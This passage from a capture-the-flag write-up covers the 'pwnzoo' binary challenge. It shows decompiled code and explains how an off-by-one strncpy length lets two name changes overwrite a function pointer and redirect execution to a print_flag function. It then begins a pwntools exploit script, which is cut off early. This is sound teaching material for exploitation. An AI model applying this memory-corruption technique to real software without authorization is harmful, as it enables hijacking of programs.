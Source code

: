If you have a look on the binary functions, you will notice that there is a "print_flag" function. So we don't need to inject shellcode, just successfully redirect the control flow to this function. 

change_name function

The change_name function receives the animal "object as parameter and sets the name within the object. Here the code (as BinaryNinjas HL IL):

```
00001412  printf(format: "New name: ")
0000141c  read_stdin_tmpbuf()
0000143b  *(strcspn(tmpbuf, data_20a8) + tmpbuf) = 0
00001446  uint64_t rax_3 = zx.q(*tmpbuf)
00001449  if (rax_3.b != 0)
00001449  {
00001473      strncpy(arg1 + 4, tmpbuf, strlen(arg1 + 4) + 1)
0000147f      rax_3 = puts(str: "Name changed!")
00001478  }
00001488  return rax_3

```
The "read_stdin_tmpbuf (not shown here) function uses fgets to read up to 128 bytes into tmpbuf variable. The change_name function then uses "strcspn" to identify the newline within that tmpbuf and uses this information to terminate the string by placing a \x00 byte at this localtion. Then, the string from tmpbuf gets copied into the "name" location of the animal object. 

If you look closely you can also identify the vulnerability: The length of the strncpy function is provided by strlen+1. This works fine for normal names. However, if we provide a name with 36 characters, we can overwrite the \x00 byte that was added by construct_anmimal. If we change the name a second time, we can also overwrite the pointer to the print_ function with a value that we control.

### Writing the exploit

Here the initial version of the exploit, which basically overwrites the pointers with eight "\x41" (A)s. The general idea is:

- On initializatzion, provide a 36 character long name, which will overwrite the "\x00" byte from animal_construct
- Change the name with a 44 character long name. This will overwrite the function pointer with our value
- Invoke the speak function from the menu. This will call the overwritten pointer.

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pwnzoo')
context.terminal = ['tmux', 'splitw', '-h']


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = '''
tbreak main
tbreak construct_animal
continue
'''.format(**locals())

#io = remote('pwnzoo-7fb58ad8.challenges.bsidessf.net', 1234)
io = start()
io.recvuntil(b'dog?')
```